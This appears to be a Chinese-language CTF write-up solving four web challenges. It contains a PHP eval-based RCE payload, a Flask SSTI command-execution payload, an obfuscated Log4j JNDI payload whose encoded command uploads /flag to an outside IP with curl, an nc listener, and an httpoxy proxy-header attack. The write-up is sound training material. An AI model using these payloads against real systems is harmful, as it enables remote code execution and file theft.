 # RCE_No_Para
无参数rce  

payload:
```
?code=eval(pos(array_reverse(current(get_defined_vars()))));&b=system('cat flag.php');
```
FLAG: flag{c9a2e14bedd56a0aeca03b019a266592}

# Flask

![](C:\Users\cys\Desktop\media\image1.png)

本地测试发现传入的参数都以 ? 为间隔

`/admin?static.js?` 绕过登录admin



![](C:\Users\cys\Desktop\media\image2.png)
![](C:\Users\cys\Desktop\media\image3.png)

name可控参数 测试存在ssti

payload:
```
url/admin?name={{(lipsum|attr(request.cookies.a)).os.popen(request.cookies.b).read()}}?.js?
设置cookie: a=__globals__;b=cat flag
```
FLAG：flag{acc374387cab26efba0d37a39909ef8d}



# Shiro?

![](C:\Users\cys\Desktop\media\image4.png)

存在Log4j 漏洞

```
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 150.158.181.145   //开启服务
```

payload:
```
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://150.158.181.145:1389/TomcatBypass/Command/Base64/Y3VybCBodHRwOi8vMS4xMTYuMTEwLjYxOjQwMDAgLUYgZmlsZT1AL2ZsYWc%253D}       
```
开启监听  nc -lvnp 4000

![](C:\Users\cys\Desktop\media\image5.png)

FLAG：flag{6e67f8ba4fd503bc1763d8f3f7f07eff}



# Flag配送中心

![](C:\Users\cys\Desktop\media\image6.png)

![](C:\Users\cys\Desktop\media\image7.png)

powered by PHP 5.6.23 + fastcgi

尝试了未授权9000端口 扫一下ip发现其他端口尝试也失败

搜索相关漏洞 `CVE-2016-5385`

添加头部信息: Proxy: http://vps:port

![](https://img-blog.csdnimg.cn/8f905abfe204456293d0e03d2698e9ea.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

服务器开启监听

![](C:\Users\cys\Desktop\media\image9.png)

FLAG：cazy{WE_4r3_f4mily_for3vEr}